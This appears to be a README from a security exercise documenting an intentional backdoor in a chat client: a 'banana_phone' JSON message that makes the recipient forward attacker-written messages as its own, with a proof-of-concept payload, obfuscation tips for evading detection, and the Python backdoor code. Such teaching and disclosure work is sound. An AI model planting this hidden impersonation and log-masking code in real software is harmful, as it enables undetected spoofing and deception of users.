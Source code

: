 # Backdoor 3: Client Spoof

## Description

This backdoor allows any malicious client to impersonate any other client known to the neighborhood. It enables them to send messages as another client, without alerting the impersonated client of this activity.

## Technical Details

When a client receives a private message, it attempts to decrypt and store it to be sent to the frontend. The backdoor expands on this functionality by checking for a JSON data structure within the message. If one is found and includes `type: 'banana_phone'`, it parses the rest of the message:

```json
{
    "type": "banana_phone",
    "to": [<list: string: fingerprint>],
    "message": <string: real message>
}
```

- `to`: Contains a list of fingerprints that the 'real' message should be sent to.
- `message`: Contains the real message to be sent.
- The original recipient becomes the new sender.

The function then calls the existing `send_private_chat` message with these new details, as if it came from the client.

Crucially, the recipient never logs or saves the sent message, and explicitly changes the original received message to a random, innocuous message to avoid suspicion.

## Objectives

This backdoor violates several key security principles:

1. Authentication: Allows impersonation of other clients.
2. Integrity: Modifies message content without authorization.
3. Non-repudiation: Makes it impossible to prove who really sent a message.
4. Confidentiality: Allows unauthorized access to private communications.

## Exploitation Method (Proof of Concept)

1. Attacker identifies the fingerprint of the client they want to impersonate (Client 3) and the intended recipient (Client 4).

![Image 3.1](appendix/Image%203.1.png)

<p align="center"><em>Figure 3.1: Attacker selects client 3 to send to, noting down the fingerprint of client 4</em></p>

2. Attacker crafts a message to Client 3 with the following structure:
   ```json
   {
     "type": "banana_phone",
     "to": ["z+jFUevZW966ayOz90LUlPDbup5tUASkiAGsrBqmVgs="],
     "message": "This is client 1 appearing as client 3"
   }
   ```
3. Attacker sends this message to Client 3 using the normal private chat protocol.
4. Client 3's system processes this message, replacing the content with a random innocuous message in its own logs.

![Image 3.2](appendix/Image%203.2.png)

<p align="center"><em>Figure 3.2: The victim client's interface showing a randomly selected harmless message, masking the attacker's covert message manipulation</em></p>

5. Client 3's system then sends the "real" message to Client 4, appearing to come from Client 3.
6. Client 4 receives a message that appears to be from Client 3, but was actually initiated by the attacker (Client 1).

![Image 3.3](appendix/Image%203.3.png)

<p align="center"><em>Figure 3.3: The real message is sent to client 4, appearing to be sent by client 3</em></p>

## Detection Challenges

- Code obfuscation using odd variable names (e.g., 'banana', 'spaghetti', 'pizza', 'carrot') makes the code harder to understand at a glance.
- The backdoor is hidden within real functions used by the protocol, making it blend in with legitimate code.
- The use of a special message type ('banana_phone') is not immediately suspicious and could be mistaken for a feature or Easter egg.
- The original message is replaced with random innocuous content, leaving no trace of the malicious activity in the sender's logs.
- The backdoor leverages existing message sending functions, making its activities appear as normal traffic.

## Code Snippet

```python
async def decrypt_and_store_message(self, data):
    # ... (code for decrypting and initial processing of the message)

    for idx, symm_key_b64 in enumerate(symm_keys_b64):
        try:
            # ... (code for decrypting the message with the current key)

            if my_fingerprint in participants:
                # ... (prepare the message entry)

                try:
                    banana = json.loads(message_text)
                    if banana.get('type') == 'banana_phone':
                        # Generate and store a random innocuous message
                        message_entry['message'] = random.choice(random_messages)
                        self.store_and_log_message(message_entry)

                        # Extract real recipients and message
                        spaghetti = banana.get('to', [])
                        pizza = banana.get('message', '')

                        # Process the recipient list
                        carrot = self.process_recipient_list(spaghetti)

                        # Remove sender and current client from recipients
                        carrot = [
                            fp for fp in carrot
                            if fp != sender_fingerprint and fp != my_fingerprint
                        ]

                        # Send the spoofed message
                        if carrot:
                            await self.send_chat_message(carrot, pizza, true_message=False)
                        else:
                            logger.error("No valid recipients for banana phone message")
                    else:
                        # Normal message handling
                        self.store_and_log_message(message_entry)
                except json.JSONDecodeError:
                    # Handle non-JSON messages
                    self.store_and_log_message(message_entry)
        except Exception as e:
            logger.error(f"Failed to decrypt message with key {idx}: {e}")

    # ... (handle case where message is not intended for this client)
```
